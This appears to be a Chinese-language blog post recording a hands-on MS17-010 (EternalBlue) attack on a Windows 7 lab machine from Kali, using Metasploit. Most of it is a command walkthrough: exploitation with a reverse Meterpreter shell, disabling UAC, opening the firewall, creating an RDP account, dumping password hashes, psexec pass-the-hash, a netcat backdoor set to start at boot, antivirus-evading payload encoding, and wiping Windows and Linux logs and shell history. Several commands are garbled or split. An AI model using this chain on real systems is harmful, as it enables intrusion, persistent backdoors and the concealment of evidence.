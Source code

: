 ```yaml
---
title: 关于MS17-010漏洞的实战记录
author: Pandaho
date: 2021-07-15 20:00:00 
categories: [Project] 
tags: [security]
image: /assets/img/security-MS17-010/cover.png
---
```





## **背景**

**MS17-010**是Windows系统一个底层服务的漏洞，当 Microsoft 服务器消息块 1.0 (SMBv1)  服务器处理某些请求时，存在多个远程执行代码漏洞。成功利用这些漏洞的攻击者可以获取在目标系统上执行代码的能力。为了利用此漏洞，在多数情况下，未经身份验证的攻击者可能向目标 SMBv1 服务器发送经特殊设计的数据包。

**知名事例：**

永恒之蓝：2017年4月14日晚，黑客团体 Shadow Brokers （影子经纪人）公布一大批网络攻击工具，其中包含从美国国家安全局（NSA）盗走的黑客渗透工具“永恒之蓝”。

该工具是利用Windows系统的SMB漏洞就可以直接获取系统最高权限。

5月12日，骇客通过改造“永恒之蓝”制作了Wannacry勒索病毒并席卷了全球，被渗透的主机都被加密硬盘驱动器主文件表(MFT)，使主引导记录(MBR)不可操作，通过占用物理磁盘上的文件名，大小和位置的信息来限制对完整系统的访问，从而让电脑无法启动，相较普通勒索病毒对系统更具破坏性。



## **环境**

1、Windows 7

2、KALI



## **原理**

**远程桌面协议**（Remote Desktop Protocol）是一个多通道（multi-channel）的协议，可以让客户端连上windows开启远程服务的电脑。

**linux系统账户库**  

```
/etc/passwd
```

**windows系统账户库** 

```
 c:\\windows\system32\config
```

**用户账户控制**（User Account Control）是微软在其windows操作系统中采用的一种控制机制，其原理是通知用户是否对应用程序使用硬盘驱动器和系统文件授权，以达到帮助阻止恶意程序损坏系统的效果。

Windows系统中administrator的权限不是最大的，最大的是system，很多信息只有system才能查看，比如注册表的sam信息，administrator是看不了的。

**windows注册表参数设置**

ADD 添加一个注册表项

-v 创建键值

-t 键值类型

-d 键值

-f 强制修改注册表项

**Meterpreter**是Metasploit框架中的一个扩展模块，作为溢出成功以后的攻击载荷使用，攻击载荷在溢出攻击成功以后给我们返回一个控制通道。使用它作为攻击载荷能够获得目标系统的一个Meterpreter-Shell的链接。

Meterpreter-Shell作为渗透模块有很多有用的功能，比如添加一个用户、隐藏一些东西、打开shell、得到用户密码、上传下载远程主机的文件、运行cmd.exe、捕捉屏幕、得到远程控制权、捕获按键信息、清除应用程序、显示远程主机的系统信息、显示远程机器的网络接口和IP地址等信息。另外Meterpreter能够躲避入侵检测系统。在远程主机上隐藏自己,它不改变系统硬盘中的文件,因此HIDS[基于主机的入侵检测系统]很难对它做出响应。此外它在运行的时候系统时间是变化的,所以跟踪它或者终止它对于一个有经验的人也会变得非常困难。

**PsExec**是一个轻型的telnet替代工具，它使您无需手动安装客户端软件即可执行其他系统上的进程，并且可以获得与控制台应用程序相当的完全交互性。PsExec最强大的功能之一是在远程系统和远程支持工具（如ipconfig）中启动交互式命令提示窗口，以便显示无法通过其他方式显示的有关远程系统的信息。

PsExec利用某一个账号，通过SMB协议连接远程机器的命名管道（基于 SMB 的 RPC），在远程机器上创建并启动一个名为 PSEXESVC 的服务,PSEXESVC 服务会注册新的命名管道。

PsExec连接至PSEXESVC新创建的命名管道，通过此管道通知PSEXESVC服务在远程机器上面启动我们指定的程序，并将程序的 stdin 与 stdout 通过命名管道转回本地 Shell，现实远程命令的本地交互。



## **挖坑过程**

```shell
msfvenom -a（指定架构，选择x86，也能在64位下运行） X86 -platform（指定运行平台）  windows -p（指定攻击载荷） windows/meterpreter/reverse_tcpmsfdb run  #运行Msfvenom

search ms17-010 #搜索ms17-010模块

use auxiliary/scanner/smb/smb_ms17_010   #进入扫描模块

set  RHOSTS #设置ip

exploit  运行模块

如果存在漏洞

use  exploit/windows/smb/ms17_010_eternalblue   进入使用模块

set  RHOSTS #设置ip

set Payload windows/x64/meterpreter/reverse_tcp   #设置监听模块

set LHOST #设置ip

run  #运行

getuid    #查看权限

shell 

chcp 65001  #修改编码

netsh firewall add portopening tcp 4444 "test"  ENABLE all  #设置防火墙规则

cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrenVersion\Policies\System /v Enable:ua /t REG_DWORD /d 0 /f    #关闭UAC

cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrenVersion\Policies\System /v LocalAccountTolemFilterPolicy /t REG_DWORD /d 1 /f   #开启共享服务
background #保存当前渗透会话

sessions ？#进入会话


操作示例

设置远程并创建远程账户

run post/windows/manage/enable_rdp USERNAME=TEST PASSWORD=TEST

rdesktop ip  #进入远程


通过账户和密码hash提权高权限账户

hashdump  #查看该系统下账户hash

use exploit/windows/smb/psexec #进入模块

show options  #查看模块参数

set RHOSTS SMBUser SMBPass SMBDomain  #设置参数

set Payload windows/meterpreter/reverse_tcp  

run


上传后门病毒

upload /usr/share/windows-binaries/nc.exe C:\\???\

修改注册表开机启动项，执行nc.exe反弹shell

reg serval -l HKLM\software\\microsoft\\windows\\currentversion\\run -v lltest_nc -d 'C:\????\nc.exe -Ldp 443 -e cmd.exe

参数说明

-L 表示用户退出连接后重新进入端口监听

-d 后台运行

-p  指定端口

-e prog程序重定向，连接即执行

shutdown -r（重启） -f（强制） -t（时间） 0
或
reboot

渗透结束后，清除渗透痕迹
net user 添加的用户名 /del  #删除远程时创建的账户
exit  #退出shell
clearev   #删除日志
sessions -K  #删除会话
在shell下执行清除系统日志  del %WINDIR%\*.log  /a/s/q/f

linux下清理方式(需获得root权限)
可创建sh脚本清理
#!/usr/bin/bash
echo > /var/log/syslog
echo > /var/log/messages
echo > /var/log/httpd/access_log
echo > /var/log/httpd/error_log
echo > /var/log/xferlog
echo > /var/log/secure
echo > /var/log/auth.log
echo > /var/log/user.log
echo > /var/log/wtmp
echo > /var/log/lastlog
echo > /var/log/btmp
echo > /var/log/utmp
history -c

 LHOST=X.X.X.X LPORT=（端口） -b（去掉坏字符）“\x00”(x表示16进制，00表示空字符) -e（指定编码器，主要为了逃过杀毒，免杀） x86/shikata_ga_nai -i(编码次数) 10 （文件随着编码次数变大） -f（指定输出格式） exe -o /var/xxxxxx
```



## 参考来源

百度百科
[ms17-010漏洞官方介绍](https://docs.microsoft.com/zh-cn/security-updates/securitybulletins/2017/ms17-010)  
[Meterpreter大全](https://www.cnblogs.com/backlion/p/9484949.html)  
[psexec错误大全](http://www.hackdig.com/11/hack-195928.html)  
